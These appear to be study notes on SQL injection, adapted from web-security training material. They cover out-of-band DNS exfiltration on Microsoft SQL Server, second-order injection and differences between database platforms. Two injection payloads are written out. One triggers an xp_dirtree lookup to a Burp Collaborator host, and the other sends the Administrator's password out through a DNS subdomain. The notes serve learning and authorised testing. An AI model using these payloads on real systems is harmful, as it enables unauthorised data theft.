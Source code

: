 In this situation, it is often possible to exploit the blind SQL injection vulnerability by **triggering out-of-band network interactions to a system that you control**. These can be triggered based on an injected condition to infer information one piece at a time. More usefully, data can be exfiltrated directly within the network interaction.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). Many production networks allow free egress of DNS queries, because they're essential for the normal operation of production systems.

The techniques for triggering a DNS query are specific to the type of database being used. For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:
`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

This causes the database to perform a lookup for the following domain:
`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

We can use Burp Collaborator with this purpose.
Here is a lab that covers this topic: [blind_oast_exfiltration_with_xxe](labs/blind_oast_exfiltration_with_xxe.md)

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:
`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`
This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:
`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

Out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.
Here is a lab that covers this topic: [blind_oast_exfiltration_with_xxe](labs/blind_oast_exfiltration_with_xxe.md)
# Second-order SQL injection
First-order SQL injection occurs when the application processes user input from an HTTP request and incorporates the input into a SQL query in an unsafe way.

Second-order SQL injection occurs when the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability occurs at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into a SQL query in an unsafe way. For this reason, second-order SQL injection is also known as stored SQL injection.

# Examining the database
Some core features of the SQL language are implemented in the same way across popular database platforms, **and so many ways of detecting and exploiting SQL injection vulnerabilities work identically on different types of database.**

However, there are also many differences between common databases. These mean that some **techniques for detecting and exploiting SQL injection work differently on different platforms.** For example:
- Syntax for string concatenation.
- Comments.
- Batched (or stacked) queries.
- Platform-specific APIs.
- Error messages.
